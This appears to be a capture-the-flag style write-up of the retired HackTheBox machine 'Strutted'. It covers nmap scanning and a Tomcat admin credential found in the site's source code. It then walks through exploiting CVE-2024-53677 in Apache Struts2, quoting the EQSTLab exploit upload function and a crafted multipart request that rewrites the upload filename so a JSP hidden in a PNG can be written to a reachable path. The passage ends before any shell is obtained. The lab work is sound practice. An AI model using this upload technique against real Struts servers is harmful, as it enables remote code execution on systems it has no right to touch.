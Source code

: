 This is a retired Medium machine. Doing for practice!
# Init
Starting with `nmap`:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted]
└─$ sudo nmap -sC -sV -oA nmap/strutted 10.10.11.59
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 04:18 EDT
Nmap scan report for 10.10.11.59
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.62 seconds
```

So, `ssh` and `http` are running.  The website is some image upload and sharing site. You can download source code too!
![[Pasted image 20250902042657.png]]

Although, after uploading the image, you cannot "Copy Shareable Link"! The README in source code does instruct that you can access the image via `http:localhost:8080/s/{id}` where `id` is some unique identifier

We do get a id and password:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted/source_code]
└─$ cat tomcat-users.xml
<?xml version='1.0' encoding='utf-8'?>

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
```

Looking at the source code, the MVC is (Apache) `Struts2` with version `6.3.0.1`.

As we can upload file, googling CVE for this version, there is [CVE-2024-53677](https://www.cve.org/CVERecord?id=CVE-2024-53677) which allows arbitrary path traversal and RCE. [POC](https://github.com/EQSTLab/CVE-2024-53677.git)

I tried the exploit in the above posts, but it does not work directly. The working of the exploit is also not straight forward. So, I look deeper into what causes the vulnerability and how can we craft our exploit. This post explains quite well: https://help.tanium.com/bundle/CVE-2024-31497/page/VERT/CVE-2024-53677/Understanding_Apache_Struts.htm.

We can have a look at the EQSTLab's exploit script. 
```python
def exploit(self) -> None:
        files = {
            'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
            'top.UploadFileName': (None, self.path),
        }

        try:
            response = requests.post(self.url, files=files)
            print("Status Code:", response.status_code)
            print("Response Text:", response.text)
            if response.status_code == 200:
                print("File uploaded successfully.")
            else:
                print("Failed to upload file.")
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")
```

It upload "two" files within same request but with different "name".

So, Struts has a series of Interceptor classes that run by default, including one called the `FileUploadInterceptor`. Struts has this concept of the object graph navigation library (OGNL), which has a stack. If there are two objects on the stack, and it allows referencing some property, say `name`, and that will work down the stack looking for the first object that has that property and return that.
If a POST request triggers the `FileUploadInterceptor`, you can have other POST parameters that reference parts of that object by the OGNL stack. In practice, that looks like:
```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------257100227792270914038585987
Content-Length: 518
Origin: http://strutted.htb
DNT: 1
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=B49FBC232ACDD342D2ABC2C6B7C0342D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="upload"; filename="Screenshot_20250902_042406.png"
Content-Type: image/png

PNG

IHDR-uijhlajkdhfaljfadf af;fda
-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="top.UploadFileName"

different.txt

helloworld
-----------------------------257100227792270914038585987--
```

The first form data parameter will be processed into an object by the `FileUploadInterceptor`. Then the second parameter is processed, setting the `UploadFileName` (Which an internal variable that Interceptor uses) for the top of the stack (the first parameter) to this new value. This trick allows for bypassing other rules put in place about where a file can be written, including directory traversals. This means the "filename" i.e. where file is written can be modifier. So we can modify it in such a way that it can be accessed by us via browser!
NOTE: One important thing to consider which I found after reading about custom payload, the first file upload needs to have `name=Upload` with an Upper case `U`. Otherwise this exploit does not work.
![[Pasted image 20250905175120.png]]

This portal only allows image upload. Upload any other file format fails. However, any image file with valid magic header can be uploaded even though the rest of the file is corrupted. So we can sort of embed the script inside the "PNG" file keeping the header same as PNG and providing path i.e. writing the file to a path which we can access/read.

However, we cannot access the file directly at `/uploads/[date]/[filename]`. As per the code, it actually provides us with a sharable link at endpoint `/s`.  But that link simply tries to render the file as an image (PNG in our case). We want the browser to process the file.
![[Pasted image 20250905181824.png]]

As this is java application, we store our file as `temp.jsp`.  (I had my "No Script" extension enabled so by default the `.jsp` file was not being rendered and it took some time to figure it out. Don't make the same mistake!). But as in the above mentioned path it is processed as image, so I try upload in parent folder and so on an eventually I can "read" the file i.e. render/process it on browser as a `jsp` file!



